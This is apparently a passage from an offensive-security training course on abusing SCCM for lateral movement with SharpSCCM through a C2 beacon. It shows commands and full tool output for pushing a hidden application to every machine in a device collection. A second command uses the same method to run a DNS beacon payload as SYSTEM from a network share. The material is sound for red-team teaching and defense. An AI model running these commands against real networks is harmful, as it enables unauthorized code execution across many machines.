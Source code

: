 With Full or Application Administrator privileges over a device or a collection, we can deploy scripts or applications to aid in lateral movement.  To execute a command on every device in the DEV collection, we could do `exec -n DEV -p <path>`.
```
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe exec -n DEV -p C:\Windows\notepad.exe --no-banner

[+] Creating new application: Application_4b981c0c-ccc4-4971-b6cc-ff774770be5c
[+] Application path: C:\Windows\notepad.exe
[+] Updated application to hide it from the Configuration Manager console
[+] Updated application to run in the context of the logged on user
[+] Successfully created application

[+] Creating new deployment of Application_4b981c0c-ccc4-4971-b6cc-ff774770be5c to DEV (S0100014)
[+] Found the Application_4b981c0c-ccc4-4971-b6cc-ff774770be5c application
[+] Successfully created deployment of Application_4b981c0c-ccc4-4971-b6cc-ff774770be5c to DEV (S0100014)
[+] New deployment name: Application_4b981c0c-ccc4-4971-b6cc-ff774770be5c_S0100014_Install
[+] Waiting for new deployment to become available...
[+] New deployment is available, waiting 30 seconds for updated policy to become available
[+] Forcing all members of DEV (S0100014) to retrieve machine policy and execute any new applications available
[+] Waiting 1 minute for execution to complete...

[+] Cleaning up

[+] Found the Application_4b981c0c-ccc4-4971-b6cc-ff774770be5c_S0100014_Install deployment
[+] Deleted the Application_4b981c0c-ccc4-4971-b6cc-ff774770be5c_S0100014_Install deployment
[+] Querying for deployments of Application_4b981c0c-ccc4-4971-b6cc-ff774770be5c_S0100014_Install
[+] No remaining deployments named Application_4b981c0c-ccc4-4971-b6cc-ff774770be5c_S0100014_Install were found
[+] Found the Application_4b981c0c-ccc4-4971-b6cc-ff774770be5c application

[+] Deleted the Application_4b981c0c-ccc4-4971-b6cc-ff774770be5c application
[+] Querying for applications named Application_4b981c0c-ccc4-4971-b6cc-ff774770be5c
[+] No remaining applications named Application_4b981c0c-ccc4-4971-b6cc-ff774770be5c were found

[+] Completed execution in 00:02:18.2210387

```
  

SharpSCCM attempts to hide the application (i.e. the command we're executing) from the GUI, but the deployment is still visible until it completes.


![](https://files.cdn.thinkific.com/file_uploads/584845/images/63d/a15/af8/deployment.png)


By default, the above will execute Notepad as the user currently logged into each machine.  If a user is not logged in, then the command won't execute.  We can force it to execute as SYSTEM using the `-s` parameter, and this will execute on every machine regardless of whether a user is currently logged in or not.  As with the GPO Abuse chapter, we can upload and execute a DNS Beacon payload.

```
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe exec -n DEV -p "C:\Windows\System32\cmd.exe /c start /b \\dc-2\software\dns_x64.exe" -s --no-banner
```
  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/d65/860/61e/dns-beacons.png)